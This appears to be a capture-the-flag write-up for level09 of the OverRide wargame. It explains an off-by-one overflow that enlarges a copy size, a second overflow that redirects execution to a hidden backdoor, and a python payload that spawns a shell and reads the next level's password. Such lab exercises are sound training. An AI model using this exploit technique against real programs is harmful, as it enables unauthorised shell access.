 Level09 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```

Level09 rights:
```Shell
level09@OverRide:~$ ls -la level09 
-rwsr-s---+ 1 end users 12959 Oct  2  2016 level09
```

Decompiling with Hex-Rays on https://dogbolt.org/ show us that:
- an unused `secret_backdoor` function is present which take a n input string and use it to execute a call to `system()`. Passing `/bin/sh` should open a shell.
- the program use the buffer address to store a message (string), the buffer address + 140 to store a username (string) and the buffer address + 180 as a size (int). So we can deduce that this is probably a structure:
```
    char    message[140];
    char    name[40];
    int     size;
```
- the size is used by strncpy to copy the user input  into message
- the set_username function copy 41 bytes in the string name which is 40 bytes. it is followed by size, so overflowing username allow us to modify the size.
So overflowing a first time to modify the size of the copy allow us to overflow a second time to modify `EIP` with the address of `secret_backdoor` to whom we will pass `/bin/sh` to be executed by `system()`.

Using a buffer overflow pattern, we search for the offset between the beginning of message variable and `EIP`.
We will use 40 bytes of padding and set the following bytes to `0xff`, the highest possible value for a byte, hoping it will be enough to overwrite `EIP`.
```Shell
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) p $rbp
$1 = (void *) 0x6741356741346741
```
We get a segmentation fault, but we can’t use its address with our tool, so we will use the address of `EBP` instead. We get an offset of 192; adding 8 bytes (the size of an address in 64-bit) gives us the offset to reach `EIP`, which is 200.

Using GDB we get the address of `secret_backdoor()` which is `0x55555555488c`:
```Shell
(gdb) p secret_backdoor
$4 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

So our payload will be:
- 40 bytes of padding follow by `0xff`.
- 200 bytes of padding followed by the address of `secret_backdoor`.
- the input for `secret_backdoor()`: `/bin/sh`.

```Shell
level09@OverRide:~$ python -c 'print("A" * 40 + "\xff" + "\n" + "B" * 200 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1] + "\n" + "/bin/sh" + "\n")' > /tmp/payload9
level09@OverRide:~$ cat /tmp/payload9 - | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```